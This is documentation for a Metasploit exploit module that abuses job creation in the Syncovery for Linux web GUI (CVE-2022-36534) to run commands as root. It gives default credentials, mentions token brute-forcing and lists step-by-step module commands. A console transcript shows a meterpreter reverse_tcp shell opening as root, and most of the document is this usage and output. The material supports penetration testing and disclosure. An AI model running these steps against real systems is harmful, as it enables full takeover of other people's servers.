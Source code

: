 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module exploits an authenticated remote code execution vulnerability (CVE-2022-36534)
in the Web GUI of Syncovery File Sync & Backup Software for Linux.
Syncovery allows an authenticated user to create jobs, which are executed before/after a profile is run.
Jobs can contain arbitrary system commands and will be executed as the user `root`.
A valid username and password or a session token is needed to exploit the vulnerability.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use exploit/unix/http/syncovery_linux_rce_2022_36534`
2. `set RHOSTS <TARGET HOSTS>`
3. `set LHOST <Address of Attacking Machine>`
4. `run`
5. You should get a meterpreter shell as the `root` user.

## Options

### USERNAME
Username used for login. Default is "default".

### PASSWORD
Password used for login. Default is "pass".

### TOKEN
Instead of using a username and password it is also possible to use an authentication token.
A valid token might be successfully brute-forced with the scanner module `syncovery_linux_token_cve_2022_36536`.

### TARGETURI
The path to Syncovery login.

### PORT
The (TCP) target port on which Syncovery is running. By default port 8999 is used for HTTP and port 8943 is used for HTTPS.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use exploits/unix/http/syncovery_linux_rce_2022_36534
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > set lhost 192.168.178.26
lhost => 192.168.178.26
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > options

Module options (exploit/unix/http/syncovery_linux_rce_2022_36534):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   pass             yes       The password to Syncovery (default: pass)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The path to Syncovery
   TOKEN                       no        A valid session token
   USERNAME   default          yes       The username to Syncovery (default: default)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.178.26   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Syncovery for Linux < 9.48j


msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf6 exploit(unix/http/syncovery_linux_rce_2022_36534) > run

[*] Started reverse TCP handler on 192.168.178.26:4444 
[+] 192.168.178.26:8999 - Exploit successfully executed
[*] Sending stage (40132 bytes) to 192.168.178.26
[*] Meterpreter session 1 opened (192.168.178.26:4444 -> 192.168.178.26:38008) at 2022-09-06 13:44:13 +0200

meterpreter > sysinfo
Computer        : kali
OS              : Linux 5.16.0-kali7-amd64 #1 SMP PREEMPT Debian 5.16.18-1kali1 (2022-04-01)
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: root
```
